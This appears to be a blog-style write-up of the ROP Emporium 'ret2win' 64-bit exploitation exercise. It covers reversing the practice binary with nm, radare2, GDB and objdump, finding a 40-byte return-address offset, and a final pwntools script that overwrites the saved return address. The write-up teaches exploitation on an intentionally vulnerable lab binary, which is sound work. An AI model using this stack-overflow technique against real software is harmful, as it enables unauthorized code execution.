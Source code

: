 ```yaml
---
layout: post
title: ROP Emporium Challenge 0: ret2win (64 bits)
excerpt_separator: <!--more-->
---
```


Link: https://ropemporium.com/challenge/ret2win.html
<!--more-->

# ret2win

Description: *Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack.*

--------------------------


## 1. Studying the binary

List functions with:

```
nm ret2win | grep 't'
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_1.jpg)

Or with radare:

```
r2 ret2win
aaaa
afl
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_2.jpg)

Then we can disassembly this function using again radare:

```
r2 ret2win
aaaa
s sym.ret2win
pdf
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_3.jpg)

We can disassembly the main function too:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_4.jpg)



## 2. Calculating RIP overwrite offset

I will open GDB with GEF script:

```
gdb -q ./ret2win
```

Using Python we create characters to test when it crashes:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_5.jpg)


With 41 we overwrite only 1 byte, so the offset is 40:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_6.jpg)

Note: It will be the same offset for all the 64 bits binaries of Rop Emporium.




## 3. Calling ret2win

We can find the function address with:

```
objdump -D ret2win | grep ret2win
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win/images/Screenshot_7.jpg)

Note: Also using gdb (*info functions*).




## 4. Final exploit

The exploit code is then:

```
from pwn import *

context(arch='amd64', os='linux')
p = process('./ret2win')

junk =    "A"*40
ret2win = 0x0000000000400811
rop = junk + p64(ret2win)
p.recvuntil("> ")
p.send(rop)
p.interactive()
```

------------------------

References:

- https://medium.com/@jacob16682/reverse-engineering-using-radare2-588775ea38d5
